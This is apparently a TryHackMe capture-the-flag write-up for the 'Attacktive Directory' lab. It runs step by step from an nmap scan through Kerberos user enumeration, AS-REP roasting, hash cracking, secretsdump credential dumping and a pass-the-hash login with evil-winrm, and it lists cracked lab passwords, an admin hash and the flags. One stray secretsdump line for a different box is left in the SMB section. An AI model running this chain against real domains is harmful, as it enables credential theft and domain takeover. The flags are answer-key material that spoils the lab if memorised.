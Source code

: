 # Attactive Directory

## nmap
```
nmap -T4 -sV -sC -oN nmap/scan 10.10.147.54
Nmap scan report for 10.10.147.54
Host is up (0.21s latency).
Not shown: 991 closed tcp ports (reset)
PORT     STATE SERVICE       VERSION
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2021-11-08 12:34:47Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: spookysec.local0., Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
3389/tcp open  ms-wbt-server Microsoft Terminal Services
| rdp-ntlm-info: 
|   Target_Name: THM-AD
|   NetBIOS_Domain_Name: THM-AD
|   NetBIOS_Computer_Name: ATTACKTIVEDIREC
|   DNS_Domain_Name: spookysec.local
|   DNS_Computer_Name: AttacktiveDirectory.spookysec.local
|   Product_Version: 10.0.17763
|_  System_Time: 2021-11-08T12:34:56+00:00
|_ssl-date: 2021-11-08T12:35:05+00:00; +1s from scanner time.
| ssl-cert: Subject: commonName=AttacktiveDirectory.spookysec.local
| Not valid before: 2021-11-07T12:34:21
|_Not valid after:  2022-05-09T12:34:21
Service Info: Host: ATTACKTIVEDIREC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2021-11-08T12:34:57
|_  start_date: N/A
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled and required

```

## Kerberos Enumeration - Kerbrute

`./kerbrute_linux_amd64 userenum --dc spookysec.local -d spookysec.local ~/tryhackme/Attactive_Directory/usernames.txt`

Usernames Link: https://raw.githubusercontent.com/Sq00ky/attacktive-directory-tools/master/userlist.txt


![](https://i.imgur.com/VdLkbeG.png)



## ASREPRoasting

- ASReproasting occurs when a user account has the privilege "Does not require Pre-Authentication" set. This means that the account **does not** need to provide valid identification before requesting a Kerberos Ticket on the specified user account.

### Look for users that are ASREPRoastable

`sudo python3 /opt/impacket/examples/GetNPUsers.py spookysec.local/ -usersfile validusers.txt -no-pass -dc-ip 10.10.147.54`

![](https://i.imgur.com/FUm4bJW.png)

### Crack hash of svc-admin

`hashcat -m 18200 hash.txt rockyou.txt`

- svc-admin:management2005


## Enumerate SMB

- `smbclient -L //10.10.147.54/ --user=svc-admin%management2005`
![](https://i.imgur.com/WHZbO5c.png)
sudo python3 secretsdump.py vulnnet-rst/a-whitehat:bNdKVkjv3RR9ht@10.10.117.161opt/
- Login to backup:
	- `smbclient //10.10.147.54/backup --user=svc-admin%management2005`

- Get credentials.txt and decode:
	- backup@spookysec.local:backup2517860

## secretsdump.py

- `sudo python3 /opt/impacket/examples/secretsdump.py spookysec/backup:backup2517860@10.10.147.54`

![](https://i.imgur.com/mGFgvnp.png)

## Crack Admin Hash

- Administrator:500:aad3b435b51404eeaad3b435b51404ee:0e0363213e37b94221497260b0bcb4fc:::

### Login to admin account:

- `evil-winrm -u 'administrator' -H '0e0363213e37b94221497260b0bcb4fc' -i 10.10.147.54`
- cat /Desktop/root.txt
	- TryHackMe{4ctiveD1rectoryM4st3r}

- cd to users
- cd to svc-admin/Desktop
- cat user.txt.txt
	- TryHackMe{K3rb3r0s_Pr3_4uth}
- cd to backup/Desktop
- cat PrivEsc.txt
	- TryHackMe{B4ckM3UpSc0tty!}




